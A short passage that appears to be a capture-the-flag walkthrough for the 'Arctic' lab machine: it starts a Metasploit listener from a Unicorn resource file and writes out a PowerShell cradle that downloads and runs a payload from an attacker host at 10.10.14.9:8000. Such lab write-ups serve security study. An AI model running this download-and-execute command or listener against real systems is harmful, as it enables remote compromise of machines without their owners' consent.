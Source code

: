 ```sh
msfconsole -r unicorn.rc
```

it starts metapreter listenning 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/exploit.png)


so we save the content of  `powershell_attack.txt` to a new file called the exploit.html and remove the powershell so that we can be able to make it executable by inline code

```sh
powershell "IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/exploit.html')"
```